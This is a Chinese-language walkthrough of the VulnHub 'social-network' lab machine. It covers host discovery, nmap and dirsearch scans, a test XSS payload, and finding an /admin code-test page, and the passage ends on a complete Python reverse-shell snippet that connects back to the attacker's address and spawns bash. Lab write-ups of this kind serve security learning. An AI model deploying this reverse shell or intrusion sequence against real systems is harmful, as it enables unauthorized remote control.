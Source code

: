 # 靶机链接

https://www.vulnhub.com/entry/boredhackerblog-social-network,454/

# 信息收集阶段

进行主机的发现，由于已知主机跟Kali在同一网段下 ,所以使用 arp-scan 工具扫描

![](https://cos.kevinc.ltd/file/download?fileId=592)

主机发现阶段发现同一网段下有三个资产，第一个大概率是网关，第二个经验证是物理机的地址，猜测第三个地址为靶机地址，接下来要对靶机进行端口的扫描，以发现靶机上跑了什么服务

使用nmap进行端口扫描，第一步是对目标进行端口的发现

![](https://cos.kevinc.ltd/file/download?fileId=593)

发现靶机上开了两个端口，其中一个是22端口（SSH服务），另一个是非常见端口5000。针对SSH服务常见的攻击手法是弱口令、暴破或者利用一些历史版本漏洞进行突破，目前收集的信息尚少。可以对端口进行版本的发现，看看各个端口上跑的是什么服务。

![](https://cos.kevinc.ltd/file/download?fileId=595)

通过版本发现可以得到的信息是：系统为Ubuntu，22端口上跑的是SSH服务，5000端口上跑的是http服务，其中的Werkzeug是一个WSGI的工具包，也可以作为Web框架的底层库，基于Python2来实现。使用searchsploit 寻找关于 Werkzeug 的漏洞，可以找到两三个，均利用不成功。

整理一下目前得到的可用信息：其中SSH可以考虑暴破用户名密码，5000端口上跑了一个网站，可以访问寻找突破口，其中的框架是基于Python来实现的，若有代码执行，可以考虑用Python脚本来执行反弹shell。

# 通过Web漏洞拿shell

尝试访问目标的5000端口，发现是一个交互网站

![](https://cos.kevinc.ltd/file/download?fileId=596)

网站有输入框，但是信息提示 ”绝对安全“， 突破可能性不大。但还是尝试插入了一下XSS payload

```html
<script>alert('justtry')</script>
```

发现还是原样输出到页面，证明该输入框不是突破点，通过查看源代码也找不到什么其他信息。

尝试收集更多的信息，在网站下进行目录扫描，看有没有管理后台或者敏感信息泄露，这里使用的是dirsearch工具

![](https://cos.kevinc.ltd/file/download?fileId=597)

发现 有一个 /admin 路径，尝试访问，页面有代码测试功能，可尝试代码执行。考虑到框架是基于Python 实现的，可以找 Python 的 反弹shell 代码。

![](https://cos.kevinc.ltd/file/download?fileId=598)

在CSDN上找到一段现成的可以直接拿来用的代码

```html
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("192.168.43.173",4444));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/bash","-i"]);
```
